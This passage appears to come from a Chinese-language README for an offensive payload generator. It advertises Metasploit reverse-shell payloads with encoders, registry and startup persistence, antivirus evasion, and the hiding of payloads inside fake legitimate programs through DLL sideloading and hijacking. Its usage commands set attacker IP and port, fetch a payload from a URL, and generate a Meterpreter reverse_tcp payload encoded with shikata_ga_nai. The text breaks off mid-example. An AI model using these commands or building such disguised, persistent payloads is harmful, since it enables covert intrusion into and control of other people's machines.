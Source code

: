 ### 🔫 MSF集成支持
- **Metasploit载荷**：支持生成MSF载荷
- **多种载荷类型**：Meterpreter、Shell等多种载荷
- **载荷编码**：支持多种编码器和迭代加密
- **自动监听器**：生成对应的监听器命令
- **载荷包装**：智能包装和混淆MSF载荷

### 🔄 持久化支持
- **Windows持久化**：启动项和注册表
- **Linux持久化**：自启动配置
- **跨平台兼容**：自动检测操作系统

### 🎭 白加黑技术
- **合法程序包装**：将载荷嵌入合法程序模板
- **DLL侧加载**：利用DLL搜索顺序执行载荷
- **DLL劫持**：替换系统DLL实现载荷投递
- **多种包装模板**：系统优化工具、网络监控、安全扫描等
- **自动混淆隐藏**：载荷深度隐藏在正常功能中

## 使用方法

### 交互式模式
```bash
python3 main.py
```

### 命令行模式
```bash
python3 main.py -i 192.168.1.100 -p 4444 --anti-detection --use-dropper
```

### 下载器模式
```bash
python3 main.py -i 192.168.1.100 -p 4444 --use-downloader --download-url "http://example.com/payload.py" --downloader-silent
```

### 白加黑模式
```bash
# 合法程序包装模式
python3 main.py -i 192.168.1.100 -p 4444 --use-white-black --white-black-mode wrapper

# DLL侧加载模式  
python3 main.py -i 192.168.1.100 -p 4444 --use-white-black --white-black-mode sideloading

# DLL劫持模式
python3 main.py -i 192.168.1.100 -p 4444 --use-white-black --white-black-mode hijacking
```

### MSF集成模式
```bash
# 使用MSF载荷 (需要安装Metasploit)
python3 main.py -i 192.168.1.100 -p 4444 --use-msf

# 指定MSF载荷类型
python3 main.py -i 192.168.1.100 -p 4444 --use-msf --msf-payload windows/meterpreter/reverse_tcp

# 使用编码器
python3 main.py -i 192.168.1.100 -p 4444 --use-msf --msf-encoder x86/shikata_ga_nai --msf-iterations 5

# MSF + 白加黑组合
```